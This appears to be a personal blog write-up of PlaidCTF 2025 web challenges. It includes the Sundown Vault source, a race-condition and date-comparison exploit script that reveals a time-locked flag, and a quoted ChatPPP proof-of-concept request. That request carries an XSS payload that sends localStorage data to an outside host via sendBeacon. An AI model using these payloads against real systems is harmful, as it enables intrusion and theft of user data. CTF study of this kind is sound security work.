





+++
title = "plaidCTF2025"
slug = "plaidctf2025"
description = "外卡赛也能打打"
date = "2025-04-05T11:13:08"
lastmod = "2025-04-05T11:13:08"
image = ""
license = ""
categories = ["赛题"]
tags = []
+++

defcon外卡，看看题学习一下，由于经常重开所以放个命令

```
docker rm -f $(docker ps -aq) && docker rmi -f $(docker images -q)
```

## The Sundown Vault(65 solves done)

```ts
import cookieParser from "cookie-parser";
import express from "express";
import "express-async-errors";
import expressWs from "express-ws";
import { ZodError } from "zod";

declare global {
	namespace Express {
		interface Request {
			sundown: {
				user?: string;
			};
		}
	}
}

const { app } = expressWs(express());
app.use(express.json());
app.use(cookieParser());

app.use("/assets", express.static("dist-ui/assets", { maxAge: "1y" }));
app.use((req, res, next) => {
	if (req.path.startsWith("/api")) {
		return next();
	}

	return res.sendFile("dist-ui/index.html", { root: "." });
});

app.use("/api", (await import("./api.js")).apiRouter);

app.use((err: Error, req: express.Request, res: express.Response, next: express.NextFunction) => {
	console.error(err);
	if (err instanceof ZodError) {
		res.status(400).json(err.errors);
	} else {
		res.status(500).send("Internal server error");
	}
});

app.listen(80, () => {
	console.log("Listening on port 80");
});
```

没什么特别的，把特殊的API路由都交给了`api.ts`去处理，先看到`initdb.sql`

```sql
CREATE EXTENSION IF NOT EXISTS pgcrypto;
CREATE SCHEMA sundown;

CREATE TABLE sundown.user (
	id text primary key,
	password text not null, -- bcrypt
	check (length(id) >= 3 and length(id) <= 32)
);

CREATE TABLE sundown.token (
	token text primary key default gen_random_uuid(),
	user_id text not null references sundown.user(id),
	created_at timestamptz not null default now()
);

CREATE TABLE sundown.secret (
	id text primary key default gen_random_uuid(),
	owner_id text not null references sundown.user(id),
	name text not null,
	secret text not null,
	reveal_at timestamptz not null,
	created_at timestamptz not null default now()
);

CREATE FUNCTION ms_to_timestamp(ms float8) RETURNS timestamptz AS $$
  SELECT to_timestamp(ms / 1000.0) AT TIME ZONE 'UTC';
$$ STRICT IMMUTABLE LANGUAGE sql;

CREATE FUNCTION timestamp_to_ms(ts timestamptz) RETURNS float8 AS $$
  SELECT extract(epoch from ts) * 1000.0;
$$ STRICT IMMUTABLE LANGUAGE sql;

------------------------------------------------------------------------------

INSERT INTO sundown.user (id, password) VALUES ('plaid', 'no-login');
INSERT INTO sundown.secret(id, owner_id, name, secret, reveal_at) VALUES ('13371337-1337-1337-1337-133713371337', 'plaid', 'Flag', 'PCTF{test_flag}', '2026-04-10 21:00:00+00');
```

什么意思呢，也就是说我们只要是明年`2026-04-10 21:00:00+00`就可以拿到flag了(地狱笑话)，



那看那`api.ts`

```ts
import bcrypt from "@node-rs/bcrypt";
import express from "express";
import { DateTime, Duration } from "luxon";
import { sql } from "slonik";
import { z } from "zod";

import { pool } from "./db.js";

const MaxSecretDate = "2030-01-01T00:00:00.000"; // if you want to keep a secret longer than this, do it yourself >:(

const UpdateIntervals = [
	Duration.fromObject({ years: 2 }).toMillis(),
	Duration.fromObject({ years: 1 }).toMillis(),
	Duration.fromObject({ months: 6 }).toMillis(),
	Duration.fromObject({ months: 2 }).toMillis(),
	Duration.fromObject({ months: 1 }).toMillis(),
	Duration.fromObject({ weeks: 1 }).toMillis(),
	Duration.fromObject({ days: 1 }).toMillis(),
	Duration.fromObject({ hours: 1 }).toMillis(),
	Duration.fromObject({ minutes: 30 }).toMillis(),
	Duration.fromObject({ minutes: 10 }).toMillis(),
	Duration.fromObject({ minutes: 5 }).toMillis(),
	Duration.fromObject({ minutes: 1 }).toMillis(),
	Duration.fromObject({ seconds: 30 }).toMillis(),
	Duration.fromObject({ seconds: 10 }).toMillis(),
	Duration.fromObject({ seconds: 5 }).toMillis(),
	Duration.fromObject({ seconds: 1 }).toMillis(),
	Duration.fromObject({ milliseconds: 500 }).toMillis(),
	Duration.fromObject({ milliseconds: 100 }).toMillis(),
];

function formatDuration(ms: number) {
	if (ms < 1000) {
		return "0s";
	}

	const seconds = Math.floor(ms / 1000);

	if (seconds < 60) {
		return `${seconds}s`;
	}

	const minutes = Math.floor(seconds / 60);

	if (minutes < 60) {
		return `${minutes}m`;
	}

	const hours = Math.floor(minutes / 60);

	if (hours < 24) {
		return `${hours}h`;
	}

	const days = Math.floor(hours / 24);

	if (days < 7) {
		return `${days}d`;
	}

	const weeks = Math.floor(days / 7);

	if (weeks < 4) {
		return `${weeks}w`;
	}

	const months = Math.floor(weeks / 4);

	if (months < 12) {
		return `${months}mo`;
	}

	const years = Math.floor(months / 12);

	return `${years}y`;
}

export const apiRouter = express.Router();

apiRouter.use(async (req, res, next) => {
	req.sundown = {};

	if (typeof req.cookies.session === "string") {
		try {
			req.sundown.user =
				(await pool.maybeOneFirst(sql.type(z.object({ id: z.string() }))`
				SELECT id
				FROM sundown.user
					JOIN sundown.token ON sundown.token.user_id = sundown.user.id
				WHERE sundown.token.token = ${req.cookies.session}
			`)) ?? undefined;
		} catch (err) {
			// Ignore
		}
	}

	next();
});

apiRouter.post("/register", async (req, res) => {
	await pool.transaction(async (tx) => {
		const body = z
			.object({
				username: z.string(),
				password: z.string(),
			})
			.parse(req.body);

		const passwordHash = await bcrypt.hash(body.password, 12);

		await tx.one(sql.unsafe`
			INSERT INTO sundown.user (id, password)
			VALUES (${body.username}, ${passwordHash})
			RETURNING *
		`);

		res.json({ success: true });
	});
});

apiRouter.post("/login", async (req, res) => {
	const body = z
		.object({
			username: z.string(),
			password: z.string(),
		})
		.parse(req.body);

	const user = await pool.maybeOne(sql.type(z.object({ id: z.string(), password: z.string() }))`
		SELECT * FROM sundown.user
		WHERE id = ${body.username}
	`);

	if (user === null) {
		res.status(403).send("Invalid username or password");
		return;
	}

	const passwordOk = await bcrypt.compare(body.password, user.password);

	if (!passwordOk) {
		res.status(403).send("Invalid username or password");
		return;
	}

	const token = await pool.one(sql.type(z.object({ token: z.string() }))`
		INSERT INTO sundown.token (user_id)
		VALUES (${user.id})
		RETURNING token
	`);

	res.cookie("session", token.token, { httpOnly: true });
	res.json({ success: true });
});

apiRouter.post("/logout", async (req, res) => {
	if (req.sundown.user === undefined) {
		res.status(403).send("Not authenticated");
		return;
	}

	await pool.query(sql.unsafe`
		DELETE FROM sundown.token
		WHERE user_id = ${req.sundown.user}
	`);

	res.clearCookie("session");
	res.json({ success: true });
});

apiRouter.get("/me", async (req, res) => {
	if (req.sundown.user === undefined) {
		res.status(403).send("Not authenticated");
		return;
	}

	res.json({ user: req.sundown.user });
});

apiRouter.get("/secrets/my", async (req, res) => {
	if (req.sundown.user === undefined) {
		res.status(403).send("Not authenticated");
		return;
	}

	const secrets = await pool.any(sql.type(
		z.object({
			id: z.string(),
			name: z.string(),
			reveal_at: z.number(),
			created_at: z.number(),
		}),
	)`
		SELECT id, name, timestamp_to_ms(reveal_at) AS reveal_at, timestamp_to_ms(created_at) AS created_at
		FROM sundown.secret
		WHERE owner_id = ${req.sundown.user}
	`);

	res.json({
		secrets: secrets.map((secret) => ({
			id: secret.id,
			name: secret.name,
			revealAt: DateTime.fromMillis(secret.reveal_at, { zone: "UTC" }).toISO(),
			createdAt: DateTime.fromMillis(secret.created_at, {
				zone: "UTC",
			}).toISO(),
		})),
	});
});

apiRouter.post("/secrets/create", async (req, res) => {
	const body = z
		.object({
			secret: z.string().min(1).max(1000),
			name: z.string().min(1).max(100),
			revealAt: z.string().transform((s, ctx) => {
				const date = DateTime.fromISO(s);

				if (!date.isValid) {
					ctx.addIssue({ code: "custom", message: "Invalid date" });
					return z.NEVER;
				}

				if (s > MaxSecretDate) {
					ctx.addIssue({
						code: "custom",
						message: "Reveal date too far in the future",
					});
					return z.NEVER;
				}

				return date;
			}),
		})
		.parse(req.body);

	if (req.sundown.user === undefined) {
		res.status(403).send("Not authenticated");
		return;
	}

	const id = await pool.oneFirst(sql.type(z.object({ id: z.string() }))`
		INSERT INTO sundown.secret (owner_id, name, secret, reveal_at)
		VALUES (${req.sundown.user}, ${body.name}, ${body.secret}, ms_to_timestamp(${body.revealAt.toMillis()}))
		RETURNING id
	`);

	res.json({ id });
});

apiRouter.ws("/ws", (ws, req) => {
	let secretId: string | undefined;
	let secret: string | undefined;
	let timeout: NodeJS.Timeout | undefined;
	let remaining: number | undefined;
	let timeoutDuration: number | undefined;

	function revealSecret() {
		if (secretId === undefined || secret === undefined) {
			return;
		}

		ws.send(JSON.stringify({ kind: "Reveal", id: secretId, secret }));
		secretId = undefined;
		secret = undefined;
		timeout = undefined;
		remaining = undefined;
	}

	function updateTimeoutDuration() {
		timeoutDuration = UpdateIntervals.find((interval) => interval <= remaining! / 100) ?? 100;
	}

	function updateTimeout() {
		if (remaining === undefined) {
			return;
		}

		if (timeout !== undefined) {
			clearTimeout(timeout);
		}

		ws.send(JSON.stringify({ kind: "Update", remaining: formatDuration(remaining) }));

		timeout = setTimeout(() => {
			remaining! -= timeoutDuration!;
			if (remaining! <= 0) {
				revealSecret();
			} else {
				updateTimeoutDuration();
				updateTimeout();
			}
		}, timeoutDuration);
	}

	ws.on("close", () => {
		if (timeout !== undefined) {
			clearTimeout(timeout);
		}
	});

	ws.on("message", async (message) => {
		try {
			let data: { command: "open"; id: string };

			try {
				let rawData: unknown;

				if (typeof message === "string") {
					rawData = JSON.parse(message);
				} else {
					rawData = JSON.parse(message.toString());
				}

				data = z
					.object({
						command: z.literal("open"),
						id: z.string(),
					})
					.parse(rawData);
			} catch (err) {
				ws.send(JSON.stringify({ error: "Failed to parse command" }));
				return;
			}

			const secretData = await pool.maybeOne(sql.type(
				z.object({
					id: z.string(),
					owner_id: z.string(),
					name: z.string(),
					secret: z.string(),
					reveal_at: z.number(),
					created_at: z.number(),
				}),
			)`
				SELECT id, owner_id, name, secret, timestamp_to_ms(reveal_at) AS reveal_at, timestamp_to_ms(created_at) AS created_at
				FROM sundown.secret
				WHERE id = ${data.id}
			`);

			if (secretData === null) {
				ws.send(JSON.stringify({ error: "Secret not found" }));
				return;
			}

			secretId = secretData.id;
			secret = secretData.secret;
			ws.send(JSON.stringify({ kind: "Watch", id: secretId, name: secretData.name }));
			remaining = new Date(secretData.reveal_at).getTime() - Date.now();

			if (remaining <= 0) {
				revealSecret();
			} else {
				if (timeoutDuration === undefined) {
					updateTimeoutDuration();
				}
				updateTimeout();
			}
		} catch (err) {
			console.error("Unexpected error", err);
			ws.close();
		}
	});

	ws.send(JSON.stringify({ kind: "Connected" }));
});
```

发现其中对数据库的查询主要是这两种

```ts
const id = await pool.oneFirst(sql.type(z.object({ id: z.string() }))`
		INSERT INTO sundown.secret (owner_id, name, secret, reveal_at)
		VALUES (${req.sundown.user}, ${body.name}, ${body.secret}, ms_to_timestamp(${body.revealAt.toMillis()}))
		RETURNING id
	`);
```

这个是进行了参数化处理的，在大多数路由里面

```ts
await tx.one(sql.unsafe`
			INSERT INTO sundown.user (id, password)
			VALUES (${body.username}, ${passwordHash})
			RETURNING *
		`);
```

但在register路由中有这个信息，就是sql.unsafe进行查询拼接，貌似是没有预处理，但是到底有没有害的实验，首先我要确保这个方法是否能够成功，于是我在初始化数据库的时候加了一个语句

```sql
UPDATE sundown.secret SET reveal_at = '2024-01-01 00:00:00+00' WHERE id = '13371337-1337-1337-1337-133713371337';
```

事实是确实成功的看到了flag，现在将代码稍微改改方便查看sql语句

```ts
apiRouter.post("/register", async (req, res) => {
	await pool.transaction(async (tx) => {
		const body = z
			.object({
				username: z.string(),
				password: z.string(),
			})
			.parse(req.body);

		const passwordHash = await bcrypt.hash(body.password, 12);
		const query = sql.unsafe`
			INSERT INTO sundown.user (id, password)
			VALUES (${body.username}, ${passwordHash})
			RETURNING *
		`;

		console.log(query.toString());
		await tx.one(query);

		res.json({ success: true });
	});
});
```

不过后面发现这个思路貌似行不通，因为`${body.username}`这种格式是进行了参数化的，如果是`'${body.username}'`的话就能成功了，giao，只能看ws了，每次有代理的地方总会有点问题

```ts
apiRouter.ws("/ws", (ws, req) => {
	let secretId: string | undefined;
	let secret: string | undefined;
	let timeout: NodeJS.Timeout | undefined;
	let remaining: number | undefined;
	let timeoutDuration: number | undefined;

	function revealSecret() {
		if (secretId === undefined || secret === undefined) {
			return;
		}

		ws.send(JSON.stringify({ kind: "Reveal", id: secretId, secret }));
		secretId = undefined;
		secret = undefined;
		timeout = undefined;
		remaining = undefined;
	}

	function updateTimeoutDuration() {
		timeoutDuration = UpdateIntervals.find((interval) => interval <= remaining! / 100) ?? 100;
	}

	function updateTimeout() {
		if (remaining === undefined) {
			return;
		}

		if (timeout !== undefined) {
			clearTimeout(timeout);
		}

		ws.send(JSON.stringify({ kind: "Update", remaining: formatDuration(remaining) }));

		timeout = setTimeout(() => {
			remaining! -= timeoutDuration!;
			if (remaining! <= 0) {
				revealSecret();
			} else {
				updateTimeoutDuration();
				updateTimeout();
			}
		}, timeoutDuration);
	}

	ws.on("close", () => {
		if (timeout !== undefined) {
			clearTimeout(timeout);
		}
	});

	ws.on("message", async (message) => {
		try {
			let data: { command: "open"; id: string };

			try {
				let rawData: unknown;

				if (typeof message === "string") {
					rawData = JSON.parse(message);
				} else {
					rawData = JSON.parse(message.toString());
				}

				data = z
					.object({
						command: z.literal("open"),
						id: z.string(),
					})
					.parse(rawData);
			} catch (err) {
				ws.send(JSON.stringify({ error: "Failed to parse command" }));
				return;
			}

			const secretData = await pool.maybeOne(sql.type(
				z.object({
					id: z.string(),
					owner_id: z.string(),
					name: z.string(),
					secret: z.string(),
					reveal_at: z.number(),
					created_at: z.number(),
				}),
			)`
				SELECT id, owner_id, name, secret, timestamp_to_ms(reveal_at) AS reveal_at, timestamp_to_ms(created_at) AS created_at
				FROM sundown.secret
				WHERE id = ${data.id}
			`);

			if (secretData === null) {
				ws.send(JSON.stringify({ error: "Secret not found" }));
				return;
			}

			secretId = secretData.id;
			secret = secretData.secret;
			ws.send(JSON.stringify({ kind: "Watch", id: secretId, name: secretData.name }));
			remaining = new Date(secretData.reveal_at).getTime() - Date.now();

			if (remaining <= 0) {
				revealSecret();
			} else {
				if (timeoutDuration === undefined) {
					updateTimeoutDuration();
				}
				updateTimeout();
			}
		} catch (err) {
			console.error("Unexpected error", err);
			ws.close();
		}
	});

	ws.send(JSON.stringify({ kind: "Connected" }));
});
```

这里是根据`remaining`来进行动态更新的，并且



这个函数里面有涉及到就是说，比如我一个闹钟，在要响的时候，就会不断的慢慢变快更新，你从 2年 到 1秒 都有不同的间隔，表示从较大到较小的更新频率：

- 比如：
  - 每 2 年更新一次（这个一般不会用到，除非倒计时时间非常长）
  - 每分钟更新一次
  - 每秒钟更新一次
  - 每 100 毫秒更新一次（最精确）

```ts
const WebSocket = require('ws');

function createWebSocketRequest(ws, id) {
    return new Promise((resolve, reject) => {
        const data = {
            command: 'open',
            id: id,
        };
        ws.send(JSON.stringify(data));

        ws.on('message', function incoming(data) {
            console.log(`Received secret for ID: ${id}:`, data.toString());
            resolve(data.toString());
        });

        ws.on('error', (err) => {
            console.error(`WebSocket error for ID: ${id}:`, err);
            reject(err);  // 出错时拒绝 Promise
        });
    });
}

async function fetchSecrets() {
    const ws = new WebSocket('ws://156.238.233.93:3000/api/ws');
    ws.on('open', async () => {
        try {
            const secret1 = await createWebSocketRequest(ws, '13371337-1337-1337-1337-133713371337');
            console.log("Received first secret:", secret1);

            const secret2 = await createWebSocketRequest(ws, 'b0e8face-d8e7-45f3-bb42-b3ee20a70032');
            console.log("Received second secret:", secret2);
        } catch (error) {
            console.error('Error fetching secrets:', error);
        }
    });

    ws.on('error', (err) => {
        console.error('WebSocket error:', err);
    });

    ws.on('close', () => {
        console.log('Connection closed');
    });
}

fetchSecrets();
```

当我把年份改成4000年的时候发现可以在他变小的时候进行穿插，那个时候共用一个会话，`timeoutDuration`也是一起的，就导致了溢出(我觉得是)，



现在的最后一个问题就是如何写这么大年限的secret了，看到`/secrets/create`这里是进行的一个字符串的比较



也就是说必须要满足格式**标准 ISO 8601 格式**不然的话就会导致比较出现问题

```
0000-01-01T00:00:00
2025-04-06T15:30:00+25:00
```

能得到flag的

```
2230-04-05T12:52:00.000Z

2400+1045
```

字符串比较，是根据Unicode进行的，这是最为重要的，而`+`比2小，最后构造出来的是这个`+203099`，但是本地通了远程不通，只能用另一种方式

```js
import { createHash } from "node:crypto";
import { spawn } from "node:child_process";
import fetch from 'node-fetch';

async function processArgv() {
    const argv = process.argv;

    if (argv.length < 3 || argv[2].startsWith('-')) {
        console.error('Usage: node client.mjs <launcher-url> [--password password] [--team-token team-token] -- <command>');
        process.exit(1);
    }

    let args = {
        launcherUrl: argv[2]
    };

    for (let i = 3; i < argv.length; i++) {
        if (argv[i] === '--') {
            args.command = argv.slice(i + 1);
            break;
        } else if (argv[i] === '--password') {
            i++;
            args.password = argv[i];
        } else if (argv[i] === '--team-token') {
            i++;
            args.teamToken = argv[i];
        }
    }

    if (args.command === undefined) {
        console.error('Usage: node client.mjs <launcher-url> [--password password] [--team-token team-token] -- <command>');
        process.exit(1);
    }

    return args;
}

async function main() {
    const args = await processArgv();

    console.log("Requesting challenge");
    console.log(`${args.launcherUrl}/api/challenge/request`);
    const requestChallengeResult = await fetch(`${args.launcherUrl}/api/challenge/request`, {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({
            password: args.password,
            teamToken: args.teamToken
        })
    });

    if (!requestChallengeResult.ok) {
        console.error("Failed to request challenge: " + await requestChallengeResult.text());
        process.exit(1);
    }

    const challenge = await requestChallengeResult.json();
    console.log(`Received challenge, difficulty = ${challenge.difficulty}, seed = ${challenge.seed}`);

    let i = 0;

    while (true) {
        const hash = createHash("sha256");
        hash.update(challenge.seed + i);
        const digest = hash.digest();
        const top32 = digest.readUInt32BE(0);
        if ((top32 >>> (32 - challenge.difficulty)) === 0) {
            break;
        }
        i++;
    }

    console.log(`Submitting response ${i}`);

    const submitSolutionResult = await fetch(`${args.launcherUrl}/api/challenge/response`, {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({
            id: challenge.id,
            response: i.toString()
        })
    });

    if (!submitSolutionResult.ok) {
        console.error("Failed to submit solution: " + await submitSolutionResult.text());
        process.exit(1);
    }

    let job = await submitSolutionResult.json();

    while (job.info === undefined) {
        console.log(`Waiting for job to begin (${job.position} jobs ahead of you)...`);

        await new Promise((resolve) => setTimeout(resolve, 5000));

        const getJobResult = await fetch(`${args.launcherUrl}/api/job/${job.id}`);
        if (!getJobResult.ok) {
            console.error("Failed to get job");
            process.exit(1);
        }

        job = await getJobResult.json();
    }

    console.log(`Job started, running: ADDRESS=${job.info[0].url} ${args.command.join(" ")}`);

    const child = spawn(args.command[0], args.command.slice(1), {
        stdio: "inherit",
        env: {
            ...process.env,
            ADDRESS: job.info[0].url
        }
    });

    child.on("exit", (code) => {
        console.log(`Child process exited with code ${code}`);
        process.exit(code);
    });

    setTimeout(() => {
        console.error("Instance was killed, sending SIGINT to child process");
        child.kill("SIGINT");
    }, job.expires_at - Date.now());
}

main().catch((err) => {
    console.error("Error occurred:", err);
    process.exit(1);
});
```

```python
import asyncio
import websockets
import json
import requests
import os
from urllib.parse import urlparse

session = requests.Session()

# 设置靶机地址
print(os.environ.get("ADDRESS"))
BASE_URL = os.environ.get("ADDRESS")
parsed_url = urlparse(BASE_URL)
host_with_port = f"{parsed_url.hostname}:{parsed_url.port if parsed_url.port else 443}"
print(host_with_port)
# BASE_URL = "http://127.0.0.1:3000"  # 替换为靶机地址


def register():
    url = f"{BASE_URL}/api/register"
    data = {"username": "baozongwi", "password": "baozongwi"}
    r = requests.post(url, json=data)
    print(r.text)


def login():
    url = f"{BASE_URL}/api/login"
    data = {"username": "baozongwi", "password": "baozongwi"}
    r = requests.post(url, json=data)
    print(r.text)

    cookie = r.cookies.get_dict().get('session')

    if not cookie:
        raise ValueError("Session cookie not found")

    return cookie


def create_secret(cookie):
    url = f"{BASE_URL}/api/secrets/create"
    data = {"name": "test", "secret": "test", "revealAt": "+203099"}
    cookies = {"session": cookie}
    r = session.post(url, json=data, cookies=cookies)
    id_value = r.json().get('id')
    print(r.text)
    return id_value


async def send_messages(url, id_value):
    # uri = f"ws://{url}/api/ws"
    uri = f"wss://{url}/api/ws"
    async with websockets.connect(uri) as ws:
        # 发送第一个请求
        request1 = {
            "command": "open",
            "id": f"{id_value}"
        }
        await ws.send(json.dumps(request1))
        print("Sent request 1:", request1)

        # 发送第二个请求
        request2 = {
            "command": "open",
            "id": "13371337-1337-1337-1337-133713371337"
        }
        await ws.send(json.dumps(request2))
        print("Sent request 2:", request2)

        while True:
            # 接收并打印服务器响应
            response1 = await ws.recv()
            print("Received response for request:", response1)


if __name__ == '__main__':
    register()
    cookie = login()
    id_value = create_secret(cookie)
    asyncio.get_event_loop().run_until_complete(send_messages(f"{host_with_port}", id_value))


```

```
node test.mjs https://sundownvault.chal.pwni.ng -- python3 exp.py
```



## ChatPPP(5 solves)

在discard看到了poc，

```http
POST /api/chat/save HTTP/2
Host: cff059bc-cafa-4a02-bb2b-1cf093064fc4.chatppp.chal.pwni.ng
Content-Length: 668
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: https://c6264c42-ad29-4a53-a923-70d4276e7df5.chatppp.chal.pwni.ng
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://c6264c42-ad29-4a53-a923-70d4276e7df5.chatppp.chal.pwni.ng/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
  "conversation": {
    "name": "name",
    "messages": [
      {
        "body": "msg1",
        "timestamp": "2025-04-05T11:41:31.537Z",
        "origin": "user",
        "key": "keydupa",
        "$on:$effect:0": {
          "kind": "native",
          "tag": "img",
          "props": {
            "src": "x",
            "onerror": "navigator.sendBeacon('https://exfil.server/', localStorage.getItem('flag'))"
          }
        }
      },
      {
        "body": "dfdfdfdf",
        "timestamp": "2025-04-05T11:41:31.537Z",
        "origin": "bot",
        "key": "keydupa"
      }
    ]
  }
}
```


## Viehaw!(18 solves)

## Trading Post(7 solves)
